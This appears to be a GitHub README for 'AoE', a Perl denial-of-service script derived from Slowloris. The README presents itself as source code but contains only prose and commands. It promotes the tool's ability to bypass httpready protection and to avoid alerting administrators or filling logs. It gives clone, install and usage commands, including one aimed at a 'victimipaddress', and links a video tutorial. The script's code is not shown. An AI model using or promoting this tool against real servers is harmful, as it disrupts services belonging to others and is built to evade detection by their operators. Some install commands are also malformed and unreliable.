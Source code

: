 # AoE
A Perl DoS Script

Area of Effect [AoE] both helps identify the timeout windows of a HTTP server or Proxy server, can bypass httpready protection and ultimately performs a fairly low bandwidth denial of service.  It has the added benefit of allowing the server to come back at any time (once the program is killed), and not spamming the logs excessively.  It also keeps the load nice and low on the target server, so other vital processes don't die unexpectedly, or cause alarm to anyone who is logged into the server for other reasons.

Credit to the Author : Laera Loris [Original Script Slowloris]

<br><b>Kali Linux/Installation</b></br>
$ apt-get install update<br>
$ apt-get install upgrade<br>
$ apt-get install perl<br>
$ git clone https://github.com/5inco/AoE.git<br>
$ cd AoE<br>
$ ls<br>
$ perl aoe.pl -h<br>
<br><b>USAGE:</b></br>
$ perl aoe.pl -options<br>
$ perl aoe.pl -dns [www.websiteip.com]<br>
<br><b>EXAMPLE:</b></br>
$ perl aoe.pl -dns xxx.xx.xx.xxx <----victimipaddress<br>
<br>Video Tutorial Link: https://youtu.be/f6I-RnnpIt8</br>
